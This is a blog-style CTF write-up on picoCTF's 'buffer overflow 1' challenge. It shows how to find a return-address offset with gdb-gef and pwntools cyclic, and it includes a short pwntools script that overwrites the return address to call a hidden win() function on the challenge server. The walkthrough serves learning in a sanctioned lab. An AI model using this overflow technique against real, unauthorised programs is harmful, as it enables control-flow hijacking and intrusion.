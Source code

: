 ```yaml
---
title: "Controlling Return Addresses with Buffer Overflows"
date: 2023-01-10T17:36:35-05:00
draft: false
tags: ["binary exploitation","reverse engineering"]
---
```

## Introduction
When I was younger, I was always fascinated with the idea of being able to break things digitally. However, I always believed that I was not smart enough to pursue this. In 2022, I have decided to start learning reverse engineering again! Starting out, I have started the Modern Binary Exploitation crackme files, and have been doing the picoCTF training ones as well. In this article I will cover picoCTF buffer-overflow1!

<!--more-->

### Start
Firstly, lets create a new directory called `bufferoverflow1` or whatever you would like to call it, then cd into that directory and wget both the vuln file and vuln.c file. Opening vuln.c with nano shows this:
![image](/img/1/p1.png)

It looks like buf is a character array with a size of 64 bytes. We also have a function called win, but win is never called... So how do we go about calling win? Well, firstly lets run vuln to see how it works. Mark it as executable with `chmod +x vuln` and then type `./vuln`
Entering any input should be fine here, so let's enter hello. After entering hello, we get the output:

```Okay, time to return... Fingers Crossed... Jumping to 0x804932f.``` 

Ok, so lets break this! Lets open gdb-gef (make sure you have gdb installed first then: [download gdb-gef](https://github.com/hugsy/gef)), and type `b main` to set a breakpoint at the main function. Then type `r` to resume.
![image](/img/1/p2.png)

We should be seeing something like this. Now what we can do is use pwntools (`pip install pwntools`) cyclic to generate a recognizable string for us. If we type `shell cyclic 64` and copy the output of that, we can type `c` again to continue. If we now paste in our string, and enter, we should see something like this:
![image](/img/1/p3.png)

If we look, we can see that vuln has been stopped at `0x61616c` with value `laaa`. If we now search for this pattern, using `search pattern 0x6161616c`, we can see two offsets. 44 for little endian and 41 for big endian. Just make note of these two for now. Now we need to get the address of the win function so that we can make our exploit redirect to the memory address of win. Type `x win` and note that as well. Lets exit gdb and type `file vuln`. The output tells us that vuln is an LSB executable and LSB corresponds to little endian, so vuln is in little endian. What is an endian you might ask? Well, endian is the way that our computers read and organize data. Little endian stores data with LSB first, and big endian stores data with MSB first. Ok, now we have our offset of 44. Now it is time to write out payload!

### Payload

These 9 lines are our entire payload! Let's go over what each line does.
![output](/img/1/p4.png)
1. `from pwn import *` — we import pwntools.
2. `payload = b'A'*44` — we make a variable: payload that contains the bytes of 44 A's.
3. `payload += p32(0x80491f6)` — we add the memory address of win, converted to little endian, to our payload.
4. `host, port = "saturn.picoctf.net", "[EXAMPLE_PORT]"` — we create two new variables named host and port. Put your port in example port.
5. `connection = remote(host, port)` — using pwntools remote, we create connection using our host and port.
6. `log.info(connection.recvS())` — log is used to make our output pretty, and we make log output connection.recvS(), and recvS means read data silently.
7. `connection.sendline(payload)` — we send our payload to our connection.
8. `log.success(connection.recvallS())` — if our log succeeds, output connection.recvallS(), which means read all bytes silently.
9. `connection.close()` — close our connection.

Alright, lets run this now! Going back to our terminal, we can type `python3 payload.py`:


Looking at our output, clearly everything worked smoothly. If we look, we can see that the program says time to jump with the memory address of `0x80491f6`. If we remember earlier, this is the memory address of win, which prints our flag!

### Conclusion
This was a very basic introduction to binary exploitation, and I hope to be able to cover more in the future!